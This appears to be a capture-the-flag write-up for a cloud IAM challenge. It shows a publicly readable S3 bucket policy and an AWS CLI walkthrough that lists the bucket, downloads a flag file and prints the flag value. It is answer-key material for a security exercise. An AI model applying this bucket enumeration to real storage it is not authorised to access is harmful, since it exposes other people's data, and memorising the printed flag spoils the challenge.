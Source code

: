 # Bucket Challenge

## Problem Description

**Buckets of Fun:** We all know that public buckets are risky. But can you find the flag?

## IAM Policy

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```

## Solution
This problem involves ListObject and GetObject permissions for the "thebigiamchallenge-storage-9979f4b" bucket, which are open to anyone (Principal: *) to check the file list and download files.

## Proof of Concept (PoC)
Install AWS CLI.
Create an IAM user with permissions set to AmazonS3ReadOnlyAccess.
Generate access keys for the user.
Configure AWS CLI using the generated access keys.

File List Check:
```json
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/
2023-06-06 04:13:53         37 flag1.txt
2023-06-09 04:18:24      81889 logo.png
Download File and Obtain Flag:
```

```json
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt ./
download: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to .\flag1.txt
```

```
> type flag1.txt
{wiz:exposed-storage-risky-as-usual}
Looks like they found the flag!
```

Feel free to customize it further based on your project's specific needs!
